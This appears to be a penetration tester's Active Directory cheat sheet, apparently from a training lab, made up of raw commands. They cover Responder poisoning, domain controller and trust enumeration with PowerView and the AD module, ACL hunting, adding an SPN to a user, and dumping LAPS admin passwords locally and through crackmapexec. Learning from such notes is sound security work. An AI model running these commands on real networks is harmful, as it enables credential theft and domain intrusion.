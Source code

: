 Reccoinessanse in network without creds and sessions:
responder -I "eth0" -A

enum4linux-ng.py -A

## find the PDC (Principal Domain Controller)
nslookup -type=srv _ldap._tcp.pdc._msdcs.$FQDN_DOMAIN

## find the DCs (Domain Controllers)
nslookup -type=srv _ldap._tcp.dc._msdcs.$FQDN_DOMAIN

## find the GC (Global Catalog, i.e. DC with extended data)
nslookup -type=srv gc._msdcs.$FQDN_DOMAIN

## Other ways to find services hosts that may be DCs 
nslookup -type=srv _kerberos._tcp.$FQDN_DOMAIN
nslookup -type=srv _kpasswd._tcp.$FQDN_DOMAIN
nslookup -type=srv _ldap._tcp.$FQDN_DOMAIN
nmap -v -sV -p 53 $SUBNET/$MASK
nmap -v -sV -sU -p 53 $SUBNET/$MASK

## Name lookup on a range
nbtscan -r $SUBNET/$MASK

## Find names and workgroup from an IP address
nmblookup -A $IPAdress


# Domain Recon

## Forest and Trusts

### Get Domain Forest
(Get-ADForest).Domains

### Get Domain Trusts

Get-DomainTrust \ Get-AdTrust

### Get all trusts in someone forest

Get-ADTrust -Filter 'intraForest -ne $True' -Server (Get-ADForest).Name



## Enumerate Restricted group

Get-DomainGpoLocalGroup

## Get AD Group members

Get-DomainGroupMember -Identity $groupname

### Get Domain OU

Get-DomainOU / Get-AdOrganizationUnit 

### Get list of child OU (subOU)

Get-ADObject -Filter 'objectClass -eq "organizationalUnit"' -SearchBase "distinguishedName of parent OU"


## Get All computers in OU 

*PowerView
(Get-DomainOU -Identity $OU).distinguishedname | %{Get-DomainComputer -SearchBase $_} | select name

*AdModule
Get-ADOrganizationalUnit -Identity 'OU=Students,DC=us,DC=techcorp,DC=local' | %{Get-ADComputer -SearchBase $_ -Filter *} | select name


## Get DomainGPO applied to OU

(Get-DomainOU -Identity $OU).gplink

Get-DomainGPO -Identity '{FCE16496-C744-4E46-AC89-2D01D76EAD68}'

or

Get-GPInheritance -Target 'OU=,DC,DC' | select-object -expandproperty InheritedGpoLinks 



## Get user's ACL for group

(Get-ACL "AD:$((Get-Group GroupName).distinguishedname)").access

## Find Interesting ACL for user or group. That your user has permission 
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match 'GROUPNAME or USERNAME'}

## Get-ACL for users in group
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=us,DC=techcorp,DC=local').Access | ?{$_.IdentityReference -match 'studentuser1'}

## Get all groups for specific user

function Get-ADPrincipalGroupMembershipRecursive ($SamAccountName) {
$groups = @(Get-ADPrincipalGroupMembership -Identity $SamAccountName | select -ExpandProperty distinguishedname)
   $groups
   if ($groups.count -gt 0)
   {
        foreach ($group in $groups)
        {
Get-ADPrincipalGroupMembershipRecursive $group }
}
}

Get-ADPrincipalGroupMembershipRecursive "USERNAME"

## Set SPN
Set-ADUser -Identity Support127User -ServicePrincipalNames @{Add='us/myspn127'} -Verbose



# LAPS




## Get LAPS password read permissions
-PowerView (return group or users who can read LAPS passwords) from IdentityName:
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}


### Get LAPS Password for all LAPS machines
$pc_name = (Get-ADComputer -Filter * -Properties name|select name).name
**using LAPS module** 
foreach($pc in $pc_name){Get-AdmPwdPassword -ComputerName $pc}
**using PowerView**
foreach($pc in $pc_name){Get-DomainObject -Identity $pc | Select -ExpandProperty ms-mcs-admpwd}
**using ADModule**
Get-adcomputer -identity $pc -properties ms-mcs-admpwd | select -expandproperty ms-mcs-admpwd 

## Get LAPS password remotly
sudo crackmapexec ldap dc01.doamin.local -u 'uname' -p 'passwd' --kdcHost dc01.domain.local -M LAPS 


